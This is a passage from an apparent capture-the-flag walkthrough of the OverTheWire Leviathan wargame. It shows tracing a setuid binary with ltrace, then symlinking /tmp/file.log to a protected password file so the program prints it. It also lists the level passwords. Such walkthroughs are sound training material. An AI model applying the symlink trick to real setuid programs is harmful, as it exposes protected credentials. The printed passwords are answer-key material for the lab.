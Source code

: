 It is definitely binary. Let's convert it to ascii form
It should be our password!  
The password for level 5 is:  
EKKlTF1Xqs

**Leviathan Level 5:**  
`ssh leviathan5@leviathan.labs.overthewire.org -p 2223`  
The password for this level:  
`EKKlTF1Xqs` 

After typing `ls`, we can see that we have a file:  
> leviathan5  

By running it, it says:  
> Cannot find /tmp/file.log  

Well. Let's create it then.  
`touch /tmp/file.log`  
Let's run the file again, but run `ltrace`, too!  
`ltrace ./leviathan5`  
The results are the following:  

> __libc_start_main(0x8049206, 1, 0xffffdc14, 0 <unfinished ...>  
> fopen("/tmp/file.log", "r")                                                                                                                        = 0x804d1a0  
> fgetc(0x804d1a0)                                                                                                                                   = '\377'  
> feof(0x804d1a0)                                                                                                                                    = 1  
> fclose(0x804d1a0)                                                                                                                                  = 0  
> getuid()                                                                                                                                           = 12005  
> setuid(12005)                                                                                                                                      = 0  
> unlink("/tmp/file.log")                                                                                                                            = 0  
> +++ exited (status 0) +++  

So, at first, it opens the file: '/tmp/file.log', reads its content, writes it to the screen, and the removes the file. Interesting.  
Actually, there is one file in the system, the contents of which are important to us. '/etc/leviathan_pass/leviathan6'  
So, in this case, we can create a symlink that points to the needed file.  
`ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log`  
After that, rerun the given program:  
`.~/leviathan5`  
Bingo!  
The password for level 6 is:  
YZ55XPVk2l

**Leviathan Level 6:**  
`ssh leviathan6@leviathan.labs.overthewire.org -p 2223`  
The password for this level:  
`YZ55XPVk2l` 
